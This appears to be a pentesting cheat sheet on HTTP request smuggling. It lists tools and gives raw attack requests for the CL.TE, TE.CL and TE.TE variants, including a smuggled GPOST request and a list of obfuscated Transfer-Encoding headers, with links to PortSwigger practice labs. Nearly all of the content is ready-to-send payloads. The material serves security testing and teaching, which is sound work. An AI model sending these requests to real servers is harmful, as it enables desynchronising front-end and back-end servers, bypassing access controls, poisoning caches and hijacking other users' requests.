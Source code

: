 # Request Smuggling

## Summary

* [Tools](#tools)
* [CL.TE vulnerabilities](#cl.te-vulnerabilities)
* [TE.CL vulnerabilities](#te.cl-vulnerabilities)
* [TE.TE behavior: obfuscating the TE header](#te.te-behavior-obfuscating-the-te-header)
* [References](#references)

## Tools

* [HTTP Request Smuggler / BApp Store](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646)
* [Smuggler](https://github.com/defparam/smuggler)

## CL.TE vulnerabilities

> The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

## TE.CL vulnerabilities

> The front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. 

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0


```

:warning: To send this request using Burp Repeater, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.You need to include the trailing sequence \r\n\r\n following the final 0.

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

## TE.TE behavior: obfuscating the TE header

> The front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

```powershell
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header

## References

* [PortSwigger - Request Smuggling](https://portswigger.net/web-security/request-smuggling)
* [A Pentester's Guide to HTTP Request Smuggling - Busra Demir - 2020, October 16](https://blog.cobalt.io/a-pentesters-guide-to-http-request-smuggling-8b7bf0db1f0)
